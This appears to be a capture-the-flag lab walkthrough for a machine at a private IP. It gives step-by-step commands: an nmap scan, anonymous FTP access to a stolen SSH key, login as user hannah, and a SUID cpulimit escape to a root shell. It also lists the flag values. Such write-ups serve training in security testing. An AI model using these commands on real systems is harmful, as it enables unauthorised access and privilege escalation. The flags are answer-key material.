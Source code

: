 # Given

ip: 192.168.227.130

# Steps

### Initial Foothold

1. Nmap scan `nmap -sSCV {ip} -oN nmap.out`
2. Since ftp allows anon logins, use `ftp {ip}` and use `anonymous:anonymous` as the creds
3. List directories to find a folder called `.hannah` . There’s an `id_rsa` file inside
4. Download the file to the attack host
5. Give R/RW permissions to the rsa file `chmod 600 id_rsa`
6. Use this to sign in as hannah `ssh hannah@{ip} -i id_rsa`

### Privilege Escalation to Root

1. Do manual enum or linpeas (linpeas has TMI)
2. If you do `sudo -l` the system asks for a password, so try this instead:
    1. `find / -perm -u=s -type f 2>/dev/null`
3. This gives all the binaries that have SUID permissions that can be run by the user hannah.
4. Look for the binaries that aren’t standard to linux distros. For example `/usr/bin/cpulimit` (or something similar)
5. Searching for that on GTFOBins ([https://gtfobins.github.io/gtfobins/cpulimit/](https://gtfobins.github.io/gtfobins/cpulimit/)) shows you how to break out into root
6. Run `/usr/bin/cpulimit -l 100 -f -- /bin/sh -p` to get root.

# Findings

1. open ports:
    1. tcp 21 (ftp), 61000 (ssh)
    2. ftp anon login allowed
2. Folder called `.hannah` with `id_rsa` file
3. `/usr/bin/cpulimit` can be leveraged to break out into root

# Creds

1. hannah : private key

# Flags

1. local.txt - debb020529e126298612fce43cfba270
2. root.txt - 1bbacf0527e91447a5e63df052b0c834

### Proof

![image.png](attachment:15ce94d1-209b-48a9-8c2d-857f3868ac3d:a370a004-c668-47bc-85e0-3e610b7f9576.png)